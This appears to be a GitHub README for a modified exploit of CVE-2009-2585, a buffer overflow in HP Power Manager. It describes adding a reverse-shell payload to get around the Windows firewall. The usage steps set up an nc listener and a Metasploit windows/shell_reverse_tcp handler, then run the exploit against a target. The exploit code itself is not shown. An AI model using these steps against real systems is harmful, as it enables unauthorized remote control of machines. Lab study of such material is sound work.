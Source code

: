 # CVE2009-2585_HP_Power_Manager_BoF
It is a version modified of the original exploit by Muhammad Haidari (https://raw.githubusercontent.com/Muhammd/HP-Power-Manager/master/hpm_exploit.py). The modification includes a payload which allows to obtain a reverse shell to avoid to open ports in the Windows'target which the firewall's windows will be closed it.

# Usage

At firts, put a listener:

<pre> nc lvp 443 </pre>

Or using the metasploit module: 

<pre> /exploit/multi/handler with payload: windows/shell_reverse_tcp </pre>

Now, you can launch the exploit:

<pre>python CVE2009-2585_HP_Power_Manager_BoF <TARGET> </pre>
